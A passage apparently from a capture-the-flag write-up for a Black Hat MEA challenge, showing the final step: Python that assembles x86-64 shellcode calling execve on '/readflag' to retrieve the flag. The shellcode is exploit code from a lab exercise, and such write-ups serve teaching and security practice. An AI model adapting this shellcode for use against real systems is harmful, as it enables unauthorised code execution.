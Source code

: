 ![overwrite_success](/assets/blackhatmea/zerodaytea/overwrite_success.webp)
## Getting the Flag

Finally, all that's left to do is execute our execve call with the now allowed "/readflag" filename argument and get the flag.

```python
win = """
mov rdi, rbx     <-
add rdi, 0x50    <- setting filename to address of "/readflag"
mov rsi, 0
mov rdx, 0
mov rax, 0x3b
syscall
"""

shellcode += asm(win)
```
